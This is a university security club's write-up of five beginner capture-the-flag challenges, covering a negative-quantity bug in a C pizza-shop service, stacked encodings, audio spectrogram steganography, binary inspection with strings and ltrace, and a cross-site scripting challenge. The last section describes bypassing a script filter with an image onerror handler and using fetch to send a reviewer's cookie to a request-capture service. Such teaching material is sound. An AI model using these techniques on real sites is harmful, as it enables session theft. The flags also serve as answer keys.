




Slides for this workshop can be found on our GitHub [here](https://github.com/umisc/workshops/tree/master/workshop-01-introduction-to-information-security/slides.pdf).

Files for the challenges can also be found [here](https://github.com/umisc/workshops/tree/master/workshop-01-introduction-to-information-security/challenges/)

Scoreboard (top 5) at the end of the workshop:

|Place|Team|Score|
|---|---|---|
|**1**|**TheSquad**|**223**|
|2|Cool Guys|223|
|3|OLWG|223|
|4|Team_Jonathan&3_others|123|
|5|team chiora|50|

## Challenge Writeups

- [Pizza Shop (50pts)](#pizza-shop)
- [Mix n Mash (75pts)](#mix-n-mash)
- [Epic Meme (100pts)](#epic-meme)
- [Strings (100pts)](#strings)
- [Top Crossovers (125pts)](#top-crossovers)

# Pizza Shop (50pts) <a name="pizza-shop"></a>

> The only pizza shop you'll ever need.
>
> `nc pizza-shop.umisc.info 6001`
>
> Author: Joseph

[pizza-shop.c](https://github.com/umisc/workshops/tree/master/workshop-01-introduction-to-information-security/challenges/pizza-shop/pizza-shop.c)

`pizza-shop.c`:

```C
#include <stdio.h>
#include <stdlib.h>
#include "flag.h"

#define FLAG_PRICE 1000000
#define PIZZA_PRICE 5

void get_int(int* a) {
    if(!scanf("%d", a)) {
        printf("Invalid input");
        exit(1);
    }
}

int balance = 420;

int main(void) {
    printf("Welcome to Annie's Pizza Parlour.\n");
    printf("What would you like to purchase today?\n");

    int inp = 0;
    while(inp != 3) {
        printf("\n");
        printf("You have $%d in your account.\n", balance);
        printf("Menu:\n");
        printf("\t 1: Flag  [$%d]\n", FLAG_PRICE);
        printf("\t 2: Pizza [$%d]\n", PIZZA_PRICE);
        printf("\t 3: Exit  [-]\n", PIZZA_PRICE);

        printf("Enter your selection: ");
        fflush(stdout);
        get_int(&inp);
        
        if(inp == 1) {
            if(balance < FLAG_PRICE) {
                printf("Not enough money!\n");
            } else {
                printf("Here you go: %s\n", flag);
                exit(0);
            }
        } else if(inp == 2) {
            printf("Enter quantity: ");
            fflush(stdout);
            int qty, amt;
            get_int(&qty);
            amt = qty * PIZZA_PRICE;
            if(balance < amt) {
                printf("Not enough money!\n");
            } else {
                balance -= amt;
                printf("Your account has been charged $%d. I hope you enjoy your %d pizzas.\n", amt, qty);
            }
        } else if(inp != 3) {
            printf("Invalid selection");
            exit(1);
        }
    }

    printf("Have a nice day.\n");

    return 0;
}
```

## Solution

We are given a host running a TCP listener on port `6001`. We are also given the source code for the program running on the server.

Connecting to the service, we are presented with a pizza shop interface:

```
$ nc pizza-shop.umisc.info 6001
Welcome to Annie's Pizza Parlour.
What would you like to purchase today?

You have $420 in your account.
Menu:
	 1: Flag  [$1000000]
	 2: Pizza [$5]
	 3: Exit  [-]
Enter your selection: 
```

The goal of the challenge is to purchase the flag item, but it costs $1000000 and we only have $420. However, if we take a look at the source code, we notice that when purchasing the pizza item, we supply a quantity that isn't checked properly. In particular, the `qty` variable which is controlled by the user can be negative. This will cause the `amt` variable to be negative, and since the balance is updated by subtracting the `amt` from the current balance, this will increase our current balance.

To solve the challenge, we simply purchase a largely negative quantity of pizzas which gives us enough money to buy the flag.

```
Welcome to Annie's Pizza Parlour.
What would you like to purchase today?

You have $420 in your account.
Menu:
	 1: Flag  [$1000000]
	 2: Pizza [$5]
	 3: Exit  [-]
Enter your selection: 2
Enter quantity: -200000
Your account has been charged $-1000000. I hope you enjoy your -200000 pizzas.

You have $1000420 in your account.
Menu:
	 1: Flag  [$1000000]
	 2: Pizza [$5]
	 3: Exit  [-]
Enter your selection: 1
Here you go: MISCCTF{i_w1sh_i_h4d_th47_m4ny_p1zz4s}
```

---

# Mix n Mash <a name="mix-n-mash"></a>

> `001101100011011000110101001101110011010000110101001101110011011100110100011001000011010100110100001101100011010000110110011000010011011000110010001101000011011100110101001101100011011100110111001101010011100100110101001101000011010001100101001101100011011000110100011001010011011101100001001101000011001000110110001110000011010100111000001100110011001000110101001110010011011100111000001101010011100000110011001100110011010100110010001101100011100000110100011001000011010100111000001101000011010100110111001101110011011000110011001101000011011100110100001101100011011100111001001101100011010100110011001100010011010001100101001101000011100000110101001101010011010000110110001101000011001000110100001101110011010100110110001101100110001100110110011001100011001101100100`
>
> Author: Joseph

## Solution

Recommended tool: [CyberChef](https://gchq.github.io/CyberChef/)

The abundance of `0`s and `1`s indicate binary encoding.
Converting from binary to ascii gives: `665745774d54646a6247567759544e664e7a426858325978583352684d5845776347467965314e4855464247566c6f3d`

Appearance of only `0-9a-f` indicates hex encoding.
Converting this from hex to ascii gives: `fWEwMTdjbGVwYTNfNzBhX2YxX3RhMXEwcGFye1NHUFBGVlo=`

Appearance of trailing `=` and a mixture of lower case, upper case and numbers indicates base64 encoding.
Converting this from base64 to ascii gives: `}a017clepa3_70a_f1_ta1q0par{SGPPFVZ`

We notice that the first character in this string is `}` which is the last character of the flag, and also the 8th last character in the string is `{` which is the 8th letter in the flag. This indicates that the string should be reversed: `ZVFPPGS{rap0q1at_1f_a07_3apelc710a}`

Lastly, we notice that the flag format is `MISCCTF{blahblahblah}` and use this as a crib to determine that the final transformation is a [ROT13](https://en.wikipedia.org/wiki/ROT13) cipher (`M -> Z`, `V -> I`, etc.). Since there are 26 letters in the alphabet, applying the ROT13 transformation again reverts the string back to its original form: `MISCCTF{enc0d1ng_1s_n07_3ncryp710n}`

---

# Epic Meme (100pts) <a name="epic-meme"></a>

> Look at this meme I saw the other day. Everyone knows that's not how files work! How funny would it be if it worked though.
>
> Author: Annie

[EpicMeme.jpg](https://github.com/umisc/workshops/tree/master/workshop-01-introduction-to-information-security/challenges/EpicMeme/EpicMeme.jpg)

## Solution

Taking a hint from the description, we try changing the file extension to `.mp3` and opening the file in some audio software (Firefox, for example). Doing so plays an audio file that sounds rather robotic. Opening the file in [Audacity](https://www.audacityteam.org/) and viewing the [spectrogram](https://en.wikipedia.org/wiki/Spectrogram) of the audio gives the flag:



---

# Strings (100pts) <a name="strings"></a>

> It does exactly what it says on the tin.
>
> Author: Darren

[strings](https://github.com/umisc/workshops/tree/master/workshop-01-introduction-to-information-security/challenges/strings/strings)

## Solution

We are given an [ELF](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format#Applications) executable (to be run on a Linux machine). If we run the program without any arguments, it tells us the correct usage:

```bash
$ ./strings
Usage: ./strings [text]
```

And if we run the program with some argument:

```bash
$ ./strings asdfasdf
uh oh! try again
```

It says `uh oh! try again`.

The title of the challenge hints to using the Linux program `strings` that comes with most Linux distributions. Running `strings` on the binary and filtering for strings that follow the flag format gives us the first part of the flag:

```bash
$ strings ./strings | grep MISCCTF
MISCCTF{str1ng5_h1dd
```

If we try and run the program with this string as the argument, we get:

```bash
$ ./strings MISCCTF{str1ng5_h1dd
nice!, the second half of the flag is hidden in this program elsewhere!
nearly there, but not quite!
```

Opening up the binary in [radare2](https://github.com/radareorg/radare2) (or some other decompiler), we see that there are calls to `strncmp` and `strcmp` (standard library functions). In particular, the call to `strcmp` which compares the user input from the 21st character onwards, to some string that is generated by the program during runtime. If we use a tool like [ltrace](https://en.wikipedia.org/wiki/Ltrace) we can see library calls and their arguments, which will give us the values being compared.

```bash
$ ltrace ./strings MISCCTF{str1ng5_h1dd
strncmp("MISCCTF{str1ng5_h1dd", "MISCCTF{str1ng5_h1dd", 20)                                 = 0
puts("nice!, the second half of the fl"...nice!, the second half of the flag is hidden in this program elsewhere!
)                                                 = 72
strcmp("", "3n_1n_b1n4ri3s}")                                                               = -51
nearly there, but not quite!
exit(1 <no return ...>
+++ exited (status 1) +++
```

This reveals the second part of the flag: `3n_1n_b1n4ri3s}`.

Running the program with the flag as the argument tells us we are correct:

```bash
$ ./strings MISCCTF{str1ng5_h1dd3n_1n_b1n4ri3s}
nice work!, you've found the flag!
```

---

# Top Crossovers (125pts) <a name="top-crossovers"></a>

> This website lets you submit your very own story! If it's got the best crossovers, you win... a flag?!
>
> http://top-crossovers.umisc.info:1337/
>
> Hint: The flag is stored in the "reviewer's" cookies
>
> Author: Joseph

## Solution

We are presented with a fairly minimal interface:



We notice that the `story` field is vulnerable to HTML injection. That is, if we tried to enter `<h1><b>this is my story</b></h1>`, we would get big, bold text:



This means that the website is likely vulnerable to [Cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting). We can use this to steal the "reviewer's" cookie by writing some Javascript code to send the cookie to a server we control. In this case, we don't actually need to own a server. We can use a service like [RequestBin.com](https://requestbin.com/) to capture requests.

We see that `<script>` is filtered (and any valid mutation of it), but `` is not, so we can use an `` tag with the [`onerror`](https://www.w3schools.com/jsref/event_onerror.asp) attribute to execute Javascript.

We can use the global [`fetch`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch) function to send a request to our server with the cookie.

If we submit the following payload:

```html
</img>
```

We will see a request to our server and the "reviewer's" cookies will be in the path.



Flag: `MISCCTF{you_have_some_eXcellent_SkillS}`
